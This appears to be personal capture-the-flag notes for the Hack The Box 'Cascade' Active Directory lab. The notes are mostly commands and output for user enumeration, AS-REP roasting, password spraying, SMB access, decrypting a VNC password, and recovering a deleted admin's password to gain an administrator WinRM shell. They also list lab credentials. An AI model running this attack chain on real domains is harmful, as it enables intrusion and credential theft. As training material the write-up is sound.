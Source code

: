 ### Making a Target User List (HTB Academy)
```bash
crackmapexec smb $IP --users # domain:cascade.local
❯ rpcclient -U "" -N $IP
rpcclient $> enumdomusers
```

##### Method 1 re-assembly rpcclient users list
```bash
cat rpc_users_raw.txt | cut -d"]" -f1 | tr "[" " " | cut -d " " -f2 > rpc_users.txt

# or 

cat rpc_users_raw.txt | awk -F\[ '{print $2}' | awk -F\] '{print $1}'
```

### ASREP Roasting
```bash
impacket-GetNPUsers cascade.local/ -dc-ip $IP -no-pass -usersfile rpc_users.txt
```

### ldapsearch
```bash
ldapsearch -x -H ldap://$IP -s base > ldapsearch_all.txt
ldapsearch -x -H ldap://$IP -s base -b "DC=cascade,DC=local" > ldapsearch_dc.txt
ldapsearch -x -H ldap://$IP -s base -b "DC=cascade,DC=local" '(objectClass=person)' > ldapsearch_person.txt

ldapsearch -H ldap://$IP -x -b "DC=cascade,DC=local" -s sub "(&(objectClass=user))"
ldapsearch -H ldap://$IP -x -b "DC=cascade,DC=local" -s sub "(&(objectClass=user))" | grep -i samaccountname: | cut -f2 -d" " > ldapsearch_user.txt
```
looks closely, there is one special user that other scans not poping it out.

CASC-DC1$

##### Enum others than user on ldapsearch
```bash
ldapsearch -H ldap://$IP -x -b "DC=cascade,DC=local" -s sub
ldapsearch -H ldap://$IP -x -b "DC=cascade,DC=local"
ldapsearch -H ldap://$IP -x -b "DC=cascade,DC=local" '(objectClass=person)'
```
cascadeLegacyPwd: clk0bjVldmE=

❯ echo clk0bjVldmE= | base64 -d
rY4n5eva

### ldapdomaindump
```bash
ldapdomaindump cascade.local
```

### windapsearch is way better !
```bash
/opt/windapsearch-linux-amd64 -d $IP -m users --full > windapsearch_go_user_full.txt

# a little trick
cat windapsearch_go_user_full.txt | awk '{print $1}' | sort | uniq -c | sort -nr
```

### ASREP Roasting Again
```bash
impacket-GetNPUsers cascade.local/ -dc-ip $IP -no-pass -usersfile rpc_users.txt
```

### Bash one-liner to try rpcclient and smb again
```bash
for u in $(cat rpc_users.txt); do smbmap -H $IP -u $u; done
for u in $(cat rpc_users.txt); do smbmap -H $IP -d cascade.local -u $u; done
```
```bash
for u in $(cat rpc_users.txt); do smbpasswd -r $IP -U $u; done
```

### Password sparying
```bash
crackmapexec smb $IP -u rpc_users.txt -p rY4n5eva | grep +

/opt/kerbrute_linux_amd64 passwordspray -d cascade.local --dc $IP rpc_users.txt rY4n5eva
```

SMB         10.129.114.189  445    CASC-DC1         [+] cascade.local\r.thompson:rY4n5eva

```bash
crackmapexec winrm $IP -u r.thompson -p rY4n5eva
```

### SMB Againt
```bash
❯ smbmap -H $IP -u r.thompson -p rY4n5eva
[+] IP: 10.129.114.189:445      Name: cascade.local                                     
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        Audit$                                                  NO ACCESS
        C$                                                      NO ACCESS       Default share
        Data                                                    READ ONLY
        IPC$                                                    NO ACCESS       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        print$                                                  READ ONLY       Printer Drivers
        SYSVOL                                                  READ ONLY       Logon server share 
```

spider
```bash
crackmapexec smb $IP -u r.thompson -p rY4n5eva -M spider_plus
```

#### mount smb with creds
```bash
sudo mount -t cifs //$IP/Data /mnt -o username=r.thompson,password=rY4n5eva,domain=cascade.local
```

##### VNC Decrypt
* https://github.com/billchaison/VNCDecrypt
* https://miloserdov.org/?p=4854#65
* https://github.com/frizb/PasswordDecrypts
```bash
echo -n 6bcf2a4b6e5aca0f | xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d -provider legacy -provider default | hexdump -Cv
```

s.smith:sT333ve2

### Bloodhound-python
```bash
bloodhound-python -c DcOnly -u s.smith -p 'sT333ve2' -d cascade.local -dc CASC-DC1.cascade.local -ns $IP
```

### Hint here
net user s.smith
net localgroup "Audit Share"
That's unusual

### Rush SMB, SMB RUSH
```bash
smbclient \\\\$IP\\Audit$ -U s.smith%sT333ve2
```

`sqlitebrowser Audit.db`

❯ echo -n BQO5l5Kj9MdErXx6Q6AGOw== | base64 -d
������D�|zC�;                                                                                                                                                                                            
The table `LDAP` contains a password for the user. But encrypted


### Privilege Escalation
❯ python3 /usr/share/doc/python3-impacket/examples/wmiexec.py cascade.local/arksvc:'w3lc0meFr31nd'@cascade.local
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] SMBv2.1 dialect used
[-] rpc_s_access_denied
```                                                   
❯ python3 /usr/share/doc/python3-impacket/examples/psexec.py cascade.local/arksvc:'w3lc0meFr31nd'@cascade.local
[-] share 'ADMIN$' is not writable.
[-] share 'Audit$' is not writable.
[-] share 'C$' is not writable.
[-] share 'Data' is not writable.
[-] share 'NETLOGON' is not writable.
[-] share 'print$' is not writable.
[-] share 'SYSVOL' is not writable.
```
# Root

```
evil-winrm -i cascade.local -u arksvc -p w3lc0meFr31nd  # <-- !!! Sometimes just can't use ip to get a shell
*Evil-WinRM* PS C:\Users\arksvc\Documents> whoami /all

USER INFORMATION
----------------

User Name      SID
============== ==============================================
cascade\arksvc S-1-5-21-3332504370-1206983947-1165150453-1106


GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                            Attributes
=========================================== ================ ============================================== ===============================================================
Everyone                                    Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
CASCADE\Data Share                          Alias            S-1-5-21-3332504370-1206983947-1165150453-1138 Mandatory group, Enabled by default, Enabled group, Local Group
CASCADE\IT                                  Alias            S-1-5-21-3332504370-1206983947-1165150453-1113 Mandatory group, Enabled by default, Enabled group, Local Group
CASCADE\AD Recycle Bin                      Alias            S-1-5-21-3332504370-1206983947-1165150453-1119 Mandatory group, Enabled by default, Enabled group, Local Group
CASCADE\Remote Management Users             Alias            S-1-5-21-3332504370-1206983947-1165150453-1126 Mandatory group, Enabled by default, Enabled group, Local Group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10                                    Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
*Evil-WinRM* PS C:\Users\arksvc\Documents> 
```

The user is identified to belong to the `AD Recycle Bin` group. AD Recycle Bin is used to recover deleted AD objects such as Users, Groups, OUs etc. The objects keep all their properties intact.

```ps
Get-ADObject -filter 'isDeleted -eq $true' -includeDeletedObjects -Properties *
```

add a filter for user

Get-ADObject -filter { SAMAccountName -eq "TempAdmin"} -includeDeletedObjects -Properties *

YmFDVDNyMWFOMDBkbGVz

evil-winrm -i cascade.local -u administrator -p baCT3r1aN00dles
